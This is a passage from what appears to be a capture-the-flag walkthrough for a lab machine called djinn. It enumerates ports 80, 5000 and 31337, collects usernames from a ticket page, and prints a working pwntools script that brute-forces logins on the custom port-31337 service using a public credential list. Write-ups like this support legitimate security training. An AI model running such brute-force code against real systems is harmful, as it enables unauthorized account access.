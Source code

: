 ```markdown
|   TerminalServerCookie: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode

|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|_    UnicodeDecodeError: 'utf-8' codec can't decode byte 0xe0 in position 5: invalid continuation byte
```

### Port 80
Connecting to port with our browser shows a static page with dead links. There is no robots.txt file and gobuster doesn’t find anything relevant. This seems to be a rabbit hole.

### Port 5000
This port hosts a python web server. We see a list of tickets with a number, an ID, a title, a status and a link. Clicking on the links redirects to *http://djinn.box:5000/?id=<ID>*.
Browsing the different tickets reveals the potential existence of following usernames:

jack
jason
david
freddy

### Port 31337
#### Brute forcing the authentication
This port hosts a custom application that we can connect to via netcat. It requires an authentication. I’ve developed a brute forcer that used a dictionary taken from here [https://raw.githubusercontent.com/shipcod3/Piata-Common-Usernames-and-Passwords/master/userpass.txt]

```python
#!/usr/bin/env python3

from pwn import *
import sys

host, port = 'djinn.box', 31337

# https://raw.githubusercontent.com/shipcod3/Piata-Common-Usernames-and-Passwords/master/userpass.txt

with open('userpass.txt') as f:
    data = f.readlines()

for creds in data:
    (username, password) = creds.split(' ')
    username = username.strip()
    password = password.strip()

    s = remote(host, port, level='error')
    
    s.recvuntil('username> ')
    s.sendline(username)
    s.recvuntil('password> ')
    s.sendline(password)

    msg = s.recvline()
    if b'authentication failed' not in msg:
        print("[+] Valid credentials found: {}:{}".format(username, password))
        sys.exit(0)
```